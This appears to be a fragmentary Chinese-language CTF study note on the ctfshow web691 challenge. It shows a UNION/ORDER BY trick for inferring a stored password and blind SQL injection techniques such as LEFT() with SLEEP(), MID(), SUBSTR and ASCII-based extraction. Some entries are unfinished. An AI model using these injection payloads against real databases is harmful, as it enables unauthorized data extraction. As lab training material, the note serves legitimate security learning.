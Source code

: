靶场：ctfshow web691



```mysql
select id,username,passwd from users where id='1' union select 1,2,'a' order by 3
```

 

```
mysql> select id,`username`,`password` from users where id='1' union select 1,2,'c' order by 3;
+----+----------+--------------------------+
| id | username | password                 |
+----+----------+--------------------------+
|  1 | 2        | c                        |
|  1 | admin    | ctfshow{123333333333333} |
+----+----------+--------------------------+
2 rows in set (0.00 sec)

mysql> select id,username,`password` from users where id='1' union select 1,2,'d' order by 3;
+----+----------+--------------------------+
| id | username | password                 |
+----+----------+--------------------------+
|  1 | admin    | ctfshow{123333333333333} |
|  1 | 2        | d                        |
+----+----------+--------------------------+
2 rows in set (0.00 sec)
```



### 

**（2）字符截取方式**

+ **通过left/right函数截取**

​		`left(str,n)`截取字符串的前n个字符。

```mysql
select * from users where id='1' and 
if(LEFT((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),2)='te',SLEEP(3),1)
```

+ **通过mid函数截取**

==todo==

```
select * from users where id='1' and mid(database(),1,1)=
```

+ 通过substr/subtring截取



**（3）字符编码方式**

+ **通过ASCII编码**

​		关键函数：`ord()`、`ascii()`
